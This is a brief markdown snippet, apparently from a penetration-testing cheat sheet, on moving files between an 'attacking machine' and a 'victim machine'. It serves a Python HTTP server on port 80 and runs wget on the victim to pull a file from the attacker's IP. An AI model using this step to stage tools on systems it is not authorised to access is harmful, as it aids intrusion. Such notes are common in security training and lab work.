 ## Python (Simple http server)

### Attacking machine:

`sudo python3 -m http.server 80`

```Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)```


### Victim Machine:
`wget http://192.168.118.3/file-to-transfer`
